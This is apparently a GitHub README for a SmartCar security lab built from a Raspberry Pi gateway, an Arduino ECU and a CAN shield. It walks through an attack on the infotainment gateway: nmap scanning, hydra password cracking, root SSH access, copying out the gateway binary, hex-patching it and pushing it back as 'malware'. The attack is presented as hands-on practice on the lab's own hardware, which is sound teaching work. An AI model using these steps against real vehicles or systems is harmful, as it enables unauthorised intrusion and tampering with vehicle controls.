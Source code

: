 # SmartCar
## Project goal
Implementation of Smart-Car CAN protocol & Utility data for IVI(In-Vehicle Infotainment) gateway attack using vulnerable port.

## Practice Equipments
- **RPi**: IVI Gateway 역할, 자동차 외부 네트워크의 Gateway
- **Arduino**: ECU 제어 역할, 자동차 내부 시스템의 ECU 제어
- **CAN shield**: RPi ↔ Arduino간 CAN 프로토콜 통신 가능
- **Sensors**: Motor, Text LCD, LCD Monitor
- **Android**: Android 앱, SmartCar 조종 인터페이스 제공
- **SmartCar.pdf**: SmartCar 실습 방법 문서

## Architecture
![architecture](https://user-images.githubusercontent.com/20378368/105503161-9c1a7300-5d09-11eb-871d-fbd33bc41c54.PNG)

## IVI Gateway Attack
![attack](https://user-images.githubusercontent.com/20378368/105503603-24991380-5d0a-11eb-8a7a-1387fc79391d.png)
### Exploit Target Binary
- **Step 1**: IVI Gateway Log 분석  
![step1](https://user-images.githubusercontent.com/20378368/105573332-1c8bb300-5da0-11eb-9b70-fdc469eea789.PNG)
```
- Android App ↔ IVI Gateway 통신 과정에서의 Log 분석
```
- **Step 2**: TCP Port Scanning
```
- Kali Linux 설치
- 설치 방법: https://hack-cracker.tistory.com/78
```
- **Step 3**: Password Cracking
```
- Android App ↔ IVI Gateway 통신 과정에서의 Port 분석
- nmap <IVI Gateway IP> -sS -sV -p <Port Number>
- ping <IVI Gateway IP> -c 5
- gzip -d /usr/share/wordlists/rockyou.txt.gz
- hydra -l <ID> -P <PW Dictionary File Path> -V -f -o <Output Path> <Service://IP:Port>
```
- **Step 4**: root 권한으로 SSH 원격 접속
```
- ssh -l <ID> -p <Port> <IVI Gateway IP>
- Step 3에서 찾아낸 root password로 접속
```
- **Step 5**: IVI Gateway의 네트워크 상태 확인
```
- netstat -tnlp
- file /proc/<PID 번호>/exe
```
- **Step 6**: SSH를 이용한 IVI Gateway 바이너리 취득
```
- scp root@<IVI Gateway IP>:<iviGateway 파일 경로> <Kali Linux에 저장될 경로>
```

### Malware Injection
- **Step 1**: Hex Editor를 이용한 바이너리 수정  
![step2](https://user-images.githubusercontent.com/20378368/105573522-8ce70400-5da1-11eb-9e8d-0f6ef08e5c32.PNG)
```
- 명령어 부분에 의미 없는 값으로 변조 → 해당 기능 동작 X
- 명령어 부분에 다른 명령어 값으로 변조 → 해당 기능 대신 다른 기능 실행됨
```
- **Step 2**: SSH를 이용한 Malware Injection
```
- scp <Kali Linux에 저장된 경로> root@<IVI Gateway IP>:<iviGateway 파일 경로>
```
- **Step 3**: IVI Gateway 다시 시작
```
- ssh root@<IVI Gateway IP>
- init 6
```
